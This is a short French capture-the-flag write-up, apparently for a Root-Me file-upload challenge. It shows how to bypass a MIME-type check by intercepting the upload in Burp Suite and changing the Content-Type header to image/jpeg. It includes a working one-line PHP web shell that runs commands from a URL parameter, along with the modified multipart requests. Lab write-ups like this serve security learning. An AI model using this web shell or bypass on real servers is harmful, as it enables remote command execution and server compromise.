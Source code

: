 
## 20. File upload - Type MIME

NB : only GIF, JPEG or PNG are accepted

En effet, si nous y mettons une image c’est ok, si non il nous affiche
"Wrong file type !"

Pas de problème, nous allons contourner cette protection. Qui ne semble être mise que sur le champ Content-type. Pour cela nous allons utiliser un proxy local pour changer ce champ 😉 ! Pour mon cas j’utilise Burp Suite.

Le fichier que je veux uploader est le suivant :

```php
<?php
system($_GET['command']);
?>
```

En configurant le proxy local pour écouter sur 127.0.0.1:8080, et de même pour le navigateur, nous arrivons à intercepter la requête :

```
------WebKitFormBoundaryZ8GVPDDa77REhNE9
Content-Disposition: form-data; name="file"; filename="a2.php"
Content-Type: application/octet-stream

<?php
system($_GET['command']);
?>
------WebKitFormBoundaryZ8GVPDDa77REhNE9--
```

Pour faire les choses proprement, nous allons remplacer le champ Content-Type par "image/jpeg" ou "image/gif" ou n’importe quel autre type supporté.

```
------WebKitFormBoundaryZ8GVPDDa77REhNE9
Content-Disposition: form-data; name="file"; filename="a2.php"
Content-Type: image/jpeg

<?php
system($_GET['command']);
?>
------WebKitFormBoundaryZ8GVPDDa77REhNE9--
```

Et voilà, le tour est joué, nous avons à présent compromis le serveur web (rien de méchant 😛 ).

Le nom du fichier sur le serveur nous étant donné, il ne nous reste plus qu’à essayer d’y accéder et là nous avons le flag :

```
Well done ! You can validate this challenge with the password
This file is already deleted.
```
